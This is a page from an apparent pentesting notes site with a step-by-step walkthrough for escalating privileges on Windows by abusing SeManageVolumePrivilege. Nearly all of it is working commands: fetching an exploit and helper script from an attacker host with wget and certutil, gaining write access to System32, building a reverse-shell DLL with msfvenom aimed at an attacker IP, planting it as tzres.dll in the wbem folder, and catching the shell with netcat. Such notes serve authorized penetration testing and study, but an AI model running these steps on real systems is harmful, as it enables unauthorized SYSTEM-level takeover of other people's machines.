

repository: amandaguglieri/hackinglife · page: semanagevolumeprivilege/index.html · generator: mkdocs

---
title: SeManageVolumePrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeManageVolumePrivilege
---
# SeManageVolumePrivilege


Original repo at https://github.com/xct/SeManageVolumeAbuse

Forked to: https://github.com/amandaguglieri/SeManageVolumeAbuse.git


Source for explotation: https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeManageVolumePrivilege/#exploit-with-wertrigger


### **Step 1: Check current user privileges**

1. Verify if the current user has `SeManageVolumePrivilege`:  

```bash
whoami /priv
```

### **Step 2: Enable SeManageVolumePrivilege (optional)**

1. Download the `EnableAllTokenPrivs.ps1` script:  

```
wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
```
        
2. Transfer the script to the target machine:  
```
certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1
```

3. Import the module to enable the privilege

```
Import-Module .\EnableAllTokenPrivs.ps1`
```
    
4. Verify privileges again to confirm that `SeManageVolumePrivilege` is enabled:  
```
whoami /priv
```


### **Step 3:  DLL hijacking with Metasploit**

1. Download and transfer `SeManageVolumeExploit.exe` to the target:  

```
wget https://github.com/amandaguglieri/SeManageVolumeAbuse/releases/download/1.0/SeManageVolumeAbuse.exe
```

2. Transfer it using `certutil`:  

```
certutil -urlcache -f http://[IP-ADDRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe
```

3. Execute the exploit to gain write privileges to `C:\Windows\System32\`:

```
.\SeManageVolumeExploit.exe
```

4. Create a malicious DLL payload with `msfvenom`:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f dll -o tzres.dll
```

5. Place the malicious DLL in the WBEM directory:  

```
copy tzres.dll C:\Windows\System32\wbem\
```

6. Set up a Netcat listener on the attacking machine:

```
rlwrap -cAr nc -lnvp 1337
```    

7. Activate the payload by running:

```
systeminfo
```
